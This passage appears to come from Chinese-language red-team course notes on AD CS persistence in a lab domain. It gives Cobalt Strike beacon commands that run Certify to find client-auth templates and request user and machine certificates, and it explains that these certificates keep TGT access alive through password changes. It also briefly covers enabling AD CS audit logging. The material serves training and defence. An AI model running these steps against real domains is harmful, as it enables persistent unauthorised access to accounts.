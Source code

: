 beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /clientauth
```

![alt Persistence](https://rto-assets.s3.eu-west-2.amazonaws.com/adcs/user-cert-template.png?width=1920)

需要留意的参数：
1. The validity period is 1 year.(有效期为1年)
2. Authorization is not required.(不需要授权)
3. Domain Users in DEV have enrollment rights.（DEV 中的域用户都具有注册权限）

使用下面命令请求证书
```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\ca-2 /template:User
```

上面命令生成的证书允许我们使用 Rubeus 为 nlamb 请求 TGT。它的有效期为 1 年，即使用户更改了密码，它也仍然有效，除非证书在CA上被注销了。


## Computer Persistence

为计算机申请证书的命令大同小异
```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\ca-2 /template:Machine /machine
```

```/machine```参数让Certify提升到system权限，执行上面命令时本身需要```high-integrity```的权限


# AD CS Auditing

AD CS logging默认不开启，如要开启需要配置以下选项

![alt Auditing](https://rto-assets.s3.eu-west-2.amazonaws.com/adcs/logging-options.png?width=1920)


